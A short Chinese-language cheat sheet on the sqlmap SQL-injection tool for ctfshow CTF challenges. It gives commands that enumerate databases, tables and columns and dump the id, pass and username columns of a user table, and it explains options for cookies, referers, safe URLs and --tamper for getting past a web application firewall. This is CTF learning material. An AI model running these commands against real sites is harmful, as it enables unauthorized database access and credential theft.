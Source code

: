 # 1.SQLmap 工具的使用

## 1.基本使用：

查数据库

```
python sqlmap.py -u <url>  -dbs
```

查表名：

```
python sqlmap.py -u <url>  -D ctfshow_web -tables
```

查列名：

```
python sqlmap.py -u <url> -D ctfshow_web -T ctfshow_user -columns
```

查flag：

```
python sqlmap.py -u <url> --referer="ctf.show" -D ctfshow_web -T ctfshow_user -C "id,pass,username" -dump
```

### 参数说明：

#### `--method`指定方法

使用`put`方法时，需要加上头部`--headers="Content-Type:text/plain"`

#### `--referer` 指定

指定来源

#### `--cookie`指定

指定cookie,抓包获得

#### `--data`指定提交的数据

#### `--batch`

不询问用户输入，使用默认行为

#### `--safe-url` 

设置在测试目标地址前访问的安全链接，有的链接需要鉴权，确定是由安全链接跳转过来的

`--safe-freq` 设置两次注入测试前访问安全链接的次数

#### `--tamper`对数据做修改绕过waf

